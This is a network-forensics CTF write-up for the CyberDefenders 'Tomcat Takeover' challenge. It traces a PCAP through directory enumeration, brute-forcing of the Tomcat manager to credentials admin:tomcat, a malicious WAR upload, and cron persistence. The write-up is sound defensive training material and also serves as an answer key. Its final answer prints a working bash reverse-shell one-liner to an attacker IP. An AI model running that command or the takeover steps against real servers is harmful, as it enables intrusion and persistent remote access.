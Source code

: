 # [CyberDefenders - Tomcat Takeover](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)
Created: 22/02/2024 10:30
Last Updated: 22/02/2024 11:32
* * *
>Category: Network Forensics
>Tags: Wireshark, PCAP, Tomcat, Network, NetworkMiner, T1071, T1083, T1110, T1027, T1053.003, T1059, T1595
* * *
**Scenario**:
Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

Tools:
- [Wireshark](https://www.wireshark.org/download.html)
- [NetworkMiner](https://www.netresec.com/?page=NetworkMiner)
***
## Questions
> Q1: Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

![3d442e3a446f348ae6685626b1ffd015.png](/resources/3d442e3a446f348ae6685626b1ffd015-1.png)
I used http filter and found that the server might be `10.0.0.112` running on port `8080`
![da93e93362697a2cb76dad531f5f9bbd.png](/resources/da93e93362697a2cb76dad531f5f9bbd-1.png)
![1dbc530e5e62dffe7cebc1cf8e7e745f.png](/resources/1dbc530e5e62dffe7cebc1cf8e7e745f-1.png)
I kept scrolling and found something suspicious, there were a lot of 4xx Error from the server response to `14.0.0.120` and it seems like this IP address is an attacker

Looking at the User-Agent, it seems like this attacker used [Gobuster](https://github.com/OJ/gobuster) a brute forcing tool to enumerate directories on the server
```
14.0.0.120
```

> Q2: 
Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

![0b38b8b83f669ba738b2c7ce9058f73d.png](/resources/0b38b8b83f669ba738b2c7ce9058f73d-1.png)
```
Guangzhou
```

> Q3: 
From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?

![db7dfbf450ae4fd298ac76ac93c1f9a7.png](/resources/db7dfbf450ae4fd298ac76ac93c1f9a7-1.png)
```
8080
```

> Q4: 
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
```
gobuster
```

> Q5: Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

![ca2c8c1c6bbcf155ddee4e71611e47e0.png](/resources/ca2c8c1c6bbcf155ddee4e71611e47e0-1.png)
The `/admin` was not right so I kept scrolling and found that `/manager` is likely to be the one I was looking for
```
/manager
```

> Q6: Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

![c26fd6816301db342e91e572813a500d.png](/resources/c26fd6816301db342e91e572813a500d-1.png)
After found the admin panel, the attacker bruteforcing out
![ba68edd11dc8f034f44d5fc5f3b3a0e1.png](/resources/ba68edd11dc8f034f44d5fc5f3b3a0e1-1.png)
Follow the HTTP stream, And look like the user credential were presented on the page source but it's not the right one so I kept searching
![a19f3a664a15fbd1b1edc3347e9043cd.png](/resources/a19f3a664a15fbd1b1edc3347e9043cd-1.png)
And I finally found it, on the HTTP POST method
```
admin:tomcat
```

> Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

![14c85f398c10e8826b97d2312705f0ca.png](/resources/14c85f398c10e8826b97d2312705f0ca-1.png)
On the HTTP POST Method, I follow the TCP stream and found the file name of the uploaded file
```
JXQOZY.war
```

> Q8: Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

![bdc75ed35229fef54135ebceec256d2a.png](/resources/bdc75ed35229fef54135ebceec256d2a-1.png)
After the attacker uploaded a reverse shell to the server, the attacker triggered it and connection were established
![749fe59ca664cc6214844e825816513c.png](/resources/749fe59ca664cc6214844e825816513c-1.png)
I followed the TCP stream of that connection and found that the attacker added the bash reverse shell to cronjob so this is the way for an attacker to stay persistance
```
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

![7d75d6b9739a0c9a3eaeec231fc869ee.png](/resources/7d75d6b9739a0c9a3eaeec231fc869ee-1.png)
* * *